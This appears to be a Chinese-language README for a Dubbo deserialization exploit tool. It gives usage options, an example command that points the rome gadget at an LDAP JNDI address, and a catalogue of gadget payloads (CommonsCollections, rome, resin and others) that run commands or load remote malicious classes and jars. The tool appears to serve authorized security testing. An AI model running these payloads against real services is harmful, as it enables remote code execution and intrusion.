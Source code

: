 *工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责*

## Dubbo反序列化测试工具

usage: java -jar exp.jar [OPTION]
- -h                帮助信息
- -list             输出所有payload信息
- -p <arg>          payload名称
- -param <arg>      payload入参
- -protocol <arg>   [dubbo] 通讯协议名称，默认缺省dubbo
- -s <arg>          [hessian|java] 序列化类型，默认缺省hessian
- -t <arg>          目标，例：127.0.0.1:20880

例：
```
java -jar dubbo-exp.jar
-t
127.0.0.1:20881
-protocol
dubbo
-s
hessian
-p
rome
-param
ldap://127.0.0.1:43658/Calc
```

## payloads列表

---------------------------------------------------------------------------------------------------------
1. 名称：resin
2. 需要入参数量：2
3. 参数说明：arg[0]=恶意类所在web服务器ip，arg[1]=恶意类类名，此处需要恶意类无包名编译出来的
4. 序列化类型：hessian
5. 依赖：com.caucho:quercus:*
---------------------------------------------------------------------------------------------------------
1. 名称：rome
2. 需要入参数量：1
3. 参数说明：arg[0]=ldap引用外部class地址，例：ldap://127.0.0.1:43658/Calc（ldap协议的JNDI服务可打jdk8u191及以下版本，大于jdk8u191需要使用gadget字节码）
4. 序列化类型：hessian
5. 依赖：com.rometools:rome:*
---------------------------------------------------------------------------------------------------------
1. 名称：spring-aop
2. 需要入参数量：1
3. 参数说明：arg[0]=ldap引用外部class地址，例：ldap://127.0.0.1:43658/Calc（ldap协议的JNDI服务可打jdk8u191及以下版本，大于jdk8u191需要使用gadget字节码）
4. 序列化类型：hessian
5. 依赖：org.springframework:spring-aop
---------------------------------------------------------------------------------------------------------
1. 名称：xbean
2. 需要入参数量：2
3. 参数说明：arg[0]=恶意类所在web服务器ip，arg[1]=恶意类类名，此处需要恶意类无包名编译出来的
4. 序列化类型：hessian
5. 依赖：org.apache.xbean:xbean-naming:*
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsBeanutils
2. 需要入参数量：1
3. 参数说明：arg[0]=ldap引用外部class地址，例：ldap://127.0.0.1:43658/Calc（ldap协议的JNDI服务可打jdk8u191及以下版本，大于jdk8u191需要使用gadget字节码）
4. 序列化类型：java
5. 依赖：
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsBeanutils1
2. 需要入参数量：1
3. 参数说明：arg[0]=cmd
4. 序列化类型：java
5. 依赖：commons-beanutils:commons-beanutils:1.9.2
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsCollections1
2. 需要入参数量：1
3. 参数说明：arg[0]=cmd
4. 序列化类型：java
5. 依赖：commons-collections:commons-collections:3.1
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsCollections2
2. 需要入参数量：1
3. 参数说明：arg[0]=cmd
4. 序列化类型：java
5. 依赖：org.apache.commons:commons-collections4:4.0
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsCollections3
2. 需要入参数量：1
3. 参数说明：arg[0]=cmd
4. 序列化类型：java
5. 依赖：commons-collections:commons-collections:3.1
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsCollections3ForLoadJar
2. 需要入参数量：2
3. 参数说明：arg[0]=jar包下载地址，arg[1]=jar包中恶意类名称
4. 序列化类型：java
5. 依赖：commons-collections:commons-collections:3.1
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsCollections4
2. 需要入参数量：1
3. 参数说明：arg[0]=cmd
4. 序列化类型：java
5. 依赖：commons-collections:commons-collections:3.1
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsCollections5
2. 需要入参数量：1
3. 参数说明：arg[0]=cmd
4. 序列化类型：java
5. 依赖：commons-collections:commons-collections:3.1
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsCollections5ForLoadJar
2. 需要入参数量：2
3. 参数说明：arg[0]=jar包下载地址，arg[1]=jar包中恶意类名称
4. 序列化类型：java
5. 依赖：commons-collections:commons-collections:3.1
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsCollections6
2. 需要入参数量：1
3. 参数说明：arg[0]=cmd
4. 序列化类型：java
5. 依赖：commons-collections:commons-collections:3.1
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsCollections6ForLoadJar
2. 需要入参数量：2
3. 参数说明：arg[0]=jar包下载地址，arg[1]=jar包中恶意类名称
4. 序列化类型：java
5. 依赖：commons-collections:commons-collections:3.1
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsCollections7
2. 需要入参数量：1
3. 参数说明：arg[0]=cmd
4. 序列化类型：java
5. 依赖：commons-collections:commons-collections:3.1
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsCollections8
2. 需要入参数量：1
3. 参数说明：arg[0]=cmd
4. 序列化类型：java
5. 依赖：org.apache.commons:commons-collections4:4.0
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsCollections9
2. 需要入参数量：1
3. 参数说明：arg[0]=cmd
4. 序列化类型：java
5. 依赖：commons-collections:commons-collections:3.1
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsCollections10
2. 需要入参数量：1
3. 参数说明：arg[0]=cmd
4. 序列化类型：java
5. 依赖：commons-collections:commons-collections:3.1
---------------------------------------------------------------------------------------------------------
1. 名称：CommonsCollections11
2. 需要入参数量：1
3. 参数说明：arg[0]=cmd
4. 序列化类型：java
5. 依赖：commons-collections:commons-collections:3.2.1
---------------------------------------------------------------------------------------------------------
1. 名称：URLDNS
2. 需要入参数量：1
3. 参数说明：arg[0]=dns server url
4. 序列化类型：java
5. 依赖：
